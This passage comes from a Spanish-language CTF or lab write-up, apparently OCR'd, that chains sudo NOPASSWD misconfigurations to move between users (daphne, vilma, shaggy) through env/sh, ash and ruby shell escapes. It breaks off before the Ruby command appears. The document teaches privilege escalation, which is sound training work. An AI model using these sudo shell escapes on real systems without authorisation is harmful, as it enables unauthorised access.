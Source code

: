 `sudo -u daphne`: Ejecuta el comando como el usuario `daphne`.  
`/usr/bin/env /bin/sh`: Usa `env` para ejecutar una nueva shell `/bin/sh`.


Este comando nos otorga una **shell como el usuario `daphne`**


### Escalada de `daphne` → `vilma`

Revisamos de nuevo los privilegios con `sudo -l`:

```bash
sudo -l
Matching Defaults entries for daphne on c12adce9f850:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daphne may run the following commands on c12adce9f850:
    (vilma) NOPASSWD: /usr/bin/ash
```

Esto indica que podemos ejecutar el shell `ash` como `vilma` sin contraseña.

```
sudo -u vilma /usr/bin/ash 
whoami
vilma
```

`ash`: es un shell ligero similar a `sh` que se encuentra en sistemas Unix.

### Escalada de `vilma` → `shaggy`

Otra vez revisamos privilegios con `sudo -l`

```bash
sudo -l 
Matching Defaults entries for vilma on c12adce9f850:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vilma may run the following commands on c12adce9f850:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

Este resultado indica que `vilma` puede ejecutar el binario `/usr/bin/ruby` como si fuera `shaggy`, **sin necesidad de proporcionar una contraseña**.

### ¿Por qué esto es un riesgo?

**Ruby**, al igual que Python, Perl o Lua, es un lenguaje interpretado de propósito general que **permite la ejecución de comandos del sistema** directamente desde su consola o mediante scripts. Permitir su ejecución en `sudo` (incluso sin privilegios de root) es una **mala práctica**, porque ofrece al atacante una vía directa para invocar una shell.

#### Ejecución de shell con Ruby

